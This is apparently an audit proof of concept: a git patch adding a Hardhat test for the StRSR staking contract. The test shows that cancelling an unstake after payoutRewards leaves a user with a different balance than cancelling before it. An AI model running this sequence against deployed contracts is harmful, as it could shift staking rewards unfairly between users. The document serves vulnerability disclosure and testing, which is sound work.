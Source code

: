 ### Proof of Concept

POC test/ZZStRSR.test.ts git patch

```patch
diff --git a/test/ZZStRSR.test.ts b/test/ZZStRSR.test.ts
index ecc31f68..b2809129 100644
--- a/test/ZZStRSR.test.ts
+++ b/test/ZZStRSR.test.ts
@@ -1333,6 +1333,46 @@ describe(`StRSRP${IMPLEMENTATION} contract`, () => {
       expect(await stRSR.exchangeRate()).to.be.gt(initialRate)
     })
 
+    it('cancelUnstake', async () => {
+      const amount: BigNumber = bn('10e18')
+
+      // Stake
+      await rsr.connect(addr1).approve(stRSR.address, amount)
+      await stRSR.connect(addr1).stake(amount)
+      await rsr.connect(addr2).approve(stRSR.address, amount)
+      await stRSR.connect(addr2).stake(amount)
+      await rsr.connect(addr3).approve(stRSR.address, amount)
+      await stRSR.connect(addr3).stake(amount)
+
+      const  initExchangeRate = await stRSR.exchangeRate();
+      console.log(initExchangeRate);
+
+      // Unstake addr2 & addr3 at same time (Although in different blocks, but timestamp only 1s)
+      await stRSR.connect(addr2).unstake(amount)
+      await stRSR.connect(addr3).unstake(amount)
+
+      // skip 1000 block PERIOD / 12000s
+      await setNextBlockTimestamp(Number(ONE_PERIOD.mul(1000).add(await getLatestBlockTimestamp())))
+
+      // Let's cancel the unstake in normal
+      await expect(stRSR.connect(addr2).cancelUnstake(1)).to.emit(stRSR, 'UnstakingCancelled')
+      let exchangeRate = await stRSR.exchangeRate();
+      expect(exchangeRate).to.equal(initExchangeRate)
+      
+      // addr3 cancelUnstake after payoutRewards
+      await stRSR.payoutRewards()
+      await expect(stRSR.connect(addr3).cancelUnstake(1)).to.emit(stRSR, 'UnstakingCancelled')
+
+      // Check balances addr2 & addr3
+      exchangeRate = await stRSR.exchangeRate();
+      expect(exchangeRate).to.be.gt(initExchangeRate)
+      const addr2NowAmount = exchangeRate.mul(await stRSR.balanceOf(addr2.address)).div(bn('1e18'));
+      console.log("addr2", addr2NowAmount.toString());
+      const addr3NowAmount = exchangeRate.mul(await stRSR.balanceOf(addr3.address)).div(bn('1e18'));
+      console.log("addr3",addr3NowAmount.toString());
+      expect(addr2NowAmount).to.gt(addr3NowAmount)
+    })
+
     it('Rewards should not be handed out when paused but staking should still work', async () => {
       await main.connect(owner).pauseTrading()
       await setNextBlockTimestamp(Number(ONE_PERIOD.add(await getLatestBlockTimestamp())))

```
